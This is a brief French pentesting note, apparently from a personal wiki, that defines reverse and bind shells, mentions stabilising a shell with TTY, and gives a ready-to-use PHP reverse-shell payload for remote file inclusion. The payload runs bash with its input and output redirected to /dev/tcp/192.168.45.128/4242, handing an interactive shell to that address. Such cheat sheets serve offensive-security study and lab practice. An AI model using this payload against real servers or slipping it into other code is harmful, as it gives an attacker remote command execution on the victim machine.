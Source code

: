 Nous pouvons forcer le serveur distant soit à nous envoyer un accès en ligne de commande au serveur ([[Reverse shell]]), soit à ouvrir un port sur le serveur auquel nous pouvons nous connecter afin d'exécuter d'autres commandes ([[Bind shell]]).

Stabilisation de la coque avec [[TTY]]


---

Reverse shell PHP (RFI)

```php 
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.128/4242 0>&1'"); ?>
```


